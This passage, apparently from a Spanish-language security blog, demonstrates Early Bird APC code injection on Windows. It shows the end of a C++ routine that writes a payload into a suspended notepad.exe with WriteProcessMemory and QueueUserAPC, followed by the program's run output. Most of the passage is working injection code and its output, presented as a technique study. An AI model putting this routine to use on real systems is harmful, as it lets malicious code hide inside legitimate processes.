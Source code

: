 ```c++
	WriteProcessMemory(pi.hProcess, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);
	QueueUserAPC((PAPCFUNC)pRemoteCode, pi.hThread, NULL);
	getchar();
	printf("[injection] Process: %p \n\t RemoteProcess %d \n\t RemoteThread %d \n\t payload = %p \n\t RemoteCOde = %p \n", GetCurrentProcess(),pi.hProcess, pi.hThread, payload, pRemoteCode);
	ResumeThread(pi.hThread);
	getchar();
	return 0;
}
```

Es interesante en tiempo de ejecución, revisar los procesos del sistema operativo:

### Ejecución parte 1:

```
binaries\EXE>earlybird_injection.exe
[injection] Process: FFFFFFFFFFFFFFFF
         notepadProcess 176
         notepadThread 172
```
Se aprecia el proceso creado en estado suspensión, que cuelga del binario earlybird_injection.exe

![earlybird_1](/assets/images/earlybird_injection_1.png)

### Ejecución parte 2:

```
[injection] Process: FFFFFFFFFFFFFFFF
         RemoteProcess 176
         RemoteThread 172
         payload = 00007FF65CB1D000
         RemoteCOde = 000001ABFCFB0000
```
Sin tener dependencia aparente el nuevo proceso creado desde la inyección de código a traves del notepad.exe
